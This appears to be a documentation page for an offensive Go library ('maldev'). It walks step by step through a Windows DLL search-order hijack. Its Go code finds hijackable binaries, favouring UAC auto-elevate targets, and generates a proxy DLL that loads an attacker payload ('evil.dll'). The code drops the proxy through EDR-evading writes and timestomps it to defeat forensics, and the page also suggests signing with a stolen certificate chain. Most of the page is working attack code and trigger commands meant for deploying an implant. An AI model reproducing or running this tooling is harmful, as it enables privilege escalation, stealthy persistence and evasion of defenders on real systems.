

# Example: DLL-Proxy Side-Load

[← Back to README](../../README.md)

End-to-end DLL search-order hijack: discover where a victim
binary loads a DLL from a user-writable path before reaching
System32, generate a forwarder DLL that re-exports every symbol
to the real target while running an extra payload on
`DLL_PROCESS_ATTACH`, drop it next to the victim, and let the
victim launch.

The flow chains four packages — `recon/dllhijack` for discovery,
`pe/parse` for export enumeration, `pe/dllproxy` for emit, and
the operator's chosen file-write primitive (often
`evasion/stealthopen.MultiStealth`) for deployment.



## Discovery — find the best opportunity

```go
import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/recon/dllhijack"
)

opps, err := dllhijack.ScanAll() // services + processes + tasks + auto-elevate
if err != nil {
    log.Fatal(err)
}

ranked := dllhijack.Rank(opps) // sort: AutoElevate > IntegrityGain > Service > …
if len(ranked) == 0 {
    log.Fatal("no hijack opportunities discovered")
}
best := ranked[0]
fmt.Printf("[+] target=%s dll=%s drop=%s score=%d auto=%t\n",
    best.BinaryPath, best.HijackedDLL, best.HijackedPath,
    best.Score, best.AutoElevate)
```

Output on a default Win11 box typically surfaces a handful of
high-value hits (`fodhelper.exe`, `sdclt.exe`,
`wlrmdr.exe` — all `AutoElevate=true`) and dozens of
medium-value ones (third-party services with side-load-prone
dependency loads).

## Emit — generate the forwarder DLL

```go
import (
    "github.com/oioio-space/maldev/pe/dllproxy"
    "github.com/oioio-space/maldev/pe/parse"
)

// Read the export list from the REAL target — the DLL the victim
// would load if our proxy weren't there. We need every named
// export so the loader resolves symbol references through our
// proxy's forwarders without "entry point not found" failures.
realDLL, err := parse.OpenFile(best.ResolvedDLL) // e.g. C:\Windows\System32\version.dll
if err != nil {
    log.Fatal(err)
}
defer realDLL.Close()

exports, err := realDLL.ExportEntries() // names + ordinals + forwarders
if err != nil {
    log.Fatal(err)
}

// Emit the forwarder PE. Zero-value Options is fine for the
// happy path; toggle DOSStub + PatchCheckSum to defeat
// fingerprint-by-absence and ImageHlp-style sanity checks.
proxyBytes, err := dllproxy.GenerateExt(
    best.HijackedDLL, // e.g. "version.dll" — must match what the
                       // victim asks for in its IAT
    exports,
    dllproxy.Options{
        Machine:       dllproxy.MachineAMD64,
        PathScheme:    dllproxy.PathSchemeGlobalRoot,
        PayloadDLL:    `C:\ProgramData\evil.dll`, // dropped earlier
        DOSStub:       true,                       // canonical "DOS mode" stub
        PatchCheckSum: true,                       // ImageHlp accepts the file
    },
)
if err != nil {
    log.Fatal(err)
}
```

The forwarder's runtime contract:

1. The Windows loader maps our proxy because it appears in the
   victim's search order before System32.
2. `DllMain` fires with `DLL_PROCESS_ATTACH`. The 32-byte stub
   `LoadLibraryA(PayloadDLL)` runs — that's where the operator's
   own DLL gets hosted in the victim process.
3. Every named export resolves through a `\\.\GLOBALROOT\…`
   forwarder back to the real System32 DLL — no symbol is ever
   "not found", and no recursion (the absolute path bypasses
   the search order).
4. The victim continues as if the real DLL had loaded. From the
   victim's POV nothing changed except a side-loaded extra DLL.

## Deploy — drop the proxy at the target path

```go
import (
    "os"

    "github.com/oioio-space/maldev/cleanup/timestomp"
    "github.com/oioio-space/maldev/evasion/stealthopen"
)

// Path-based EDR file hooks see the CreateFile here. Route
// through a stealthopen.Creator (or `stealthopen.WriteAll`) when
// you want operator-controlled write semantics; plain os.WriteFile
// is fine for the canonical drop — defenders watching for new
// DLLs in service / auto-elevate parents already have signal
// regardless of the API.
if err := stealthopen.WriteAll(nil, best.HijackedPath, proxyBytes); err != nil {
    log.Fatal(err)
}

// Clone the timestamps of the legitimate System32 DLL so the
// dropped proxy blends with the directory listing — defeats
// "newest file in dir" forensic heuristics.
_ = timestomp.CopyFrom(best.ResolvedDLL, best.HijackedPath)
_ = os.Args // silence unused-import in this snippet
```

## Validate — confirm the hijack fires before going loud

`dllhijack.Validate` drops a *canary* DLL (a tiny payload that
writes a marker file when loaded), triggers the victim, polls
for the marker, and cleans up. Use it to confirm the
opportunity is real before dropping the actual implant DLL:

```go
canary := buildCanaryDLL(best.HijackedDLL) // small DLL that touches a marker file

result, err := dllhijack.Validate(best, canary, dllhijack.ValidateOpts{
    MarkerDir: `C:\Users\Public`,
    Timeout:   30 * time.Second,
})
if err != nil {
    log.Fatalf("validate: %v", err)
}
if !result.Confirmed {
    log.Fatalf("canary did not fire — opportunity is not real (errors: %v)", result.Errors)
}
log.Printf("canary fired in %s — proceeding with real proxy",
    result.ConfirmedAt.Sub(result.TriggerAt))
```

## Trigger — launch the victim

The trigger depends on `Opportunity.Kind`:

| Kind | Trigger |
|---|---|
| `KindService` | `sc start <Opportunity.ID>` (or `windows/svc/mgr.Service.Start()`) |
| `KindAutoElevate` | spawn the executable at `BinaryPath` (UAC silently elevates) |
| `KindScheduledTask` | `schtasks /run /tn <Opportunity.ID>` (or COM `ITaskService`) |
| `KindProcess` | wait for the running process to next reload the DLL — typically a logoff/logon cycle for shell extensions, or a service restart |

For `KindAutoElevate`, the elevated child process inherits no
arguments from us by default; the side-loaded payload runs
inside the auto-elevated victim, so privilege gain happens for
free.

## Limitations

- **`KnownDLLs` are excluded** from hijack candidates. Files
  registered under `HKLM\SYSTEM\CurrentControlSet\Control\Session
  Manager\KnownDlls` are early-load-mapped from `\KnownDlls\` and
  bypass the search order entirely. `dllhijack.ScanAll` filters
  these automatically.
- **Same-architecture only.** A 64-bit victim won't load a 32-bit
  proxy. Use `dllproxy.Options{Machine: dllproxy.MachineI386}` to
  emit a PE32 proxy for WOW64 targets.
- **Forwarder text length is bounded.** The
  `\\.\GLOBALROOT\SystemRoot\System32\<target>.<export>` string
  must fit in `MAX_PATH` (260) per export. Targets with extreme
  symbol-name lengths may fail emission — fall back to
  `PathSchemeSystem32` (shorter prefix, slightly louder against
  per-process DLL-load monitors).
- **Code signing.** Some auto-elevate binaries gate on the loaded
  DLL's signature in modern builds. Pair with `pe/cert.Write` +
  a stolen cert chain when the victim's manifest declares
  `requireAdministrator` AND the trusted-loader policy is on
  (rare but rising).
- **Timestamps + filename.** The proxy must be named EXACTLY what
  the victim asks for (case-insensitive on NTFS, but be careful
  on case-sensitive filesystems shared via NFS). Mismatched mtimes
  vs. the surrounding directory are a forensic indicator —
  `cleanup/timestomp.SetFull` clones MAC times from the real
  System32 copy.
- **`KindProcess` opportunities are not always reachable.** A
  dependency that's already loaded won't reload because we
  dropped a new file. Confirm reachability by either restarting
  the process (loud) or finding a different `Kind` opportunity
  for the same DLL.

## See also

- [`docs/techniques/recon/dll-hijack.md`](../techniques/recon/dll-hijack.md) — discovery API, scoring, validation primitives.
- [`do../techniques/pe/dll-proxy.md`](../techniques/pe/dll-proxy.md) — pure-Go forwarder emitter (PE32 + PE32+, perfect-proxy semantics).
- [`docs/techniques/pe/imports.md`](../techniques/pe/imports.md) — `pe/parse.ExportEntries` for the named-exports list (handles ordinal-only exports such as `msvcrt`).
- [`docs/examples/full-chain.md`](full-chain.md) — full implant lifecycle with cross-process inject + masquerade + sleepmask.
